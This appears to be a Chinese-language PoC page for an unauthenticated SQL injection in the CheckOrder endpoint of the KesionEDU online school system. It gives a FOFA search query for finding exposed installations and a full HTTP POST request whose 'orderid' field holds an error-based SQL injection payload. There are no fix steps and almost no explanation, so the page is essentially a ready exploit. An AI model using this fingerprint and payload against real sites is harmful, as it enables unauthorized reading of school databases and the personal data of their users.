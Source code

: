 # 科汛新职教网校系统CheckOrder存在SQL注入漏洞

科汛新职教网校系统KesionEDU CheckOrder 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
body="/KS_Inc/static/edu"
```

## poc
```javascript
POST /webapi/APP/CheckOrder HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Priority: u=0
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest

{"orderid":"1' AND 7755 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(112)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (7755=7755) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(107)+CHAR(107)+CHAR(113)))-- Ahbw","apptoken":"1","ordertype":"1"}
```

![image-20241227223044294](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272230369.png)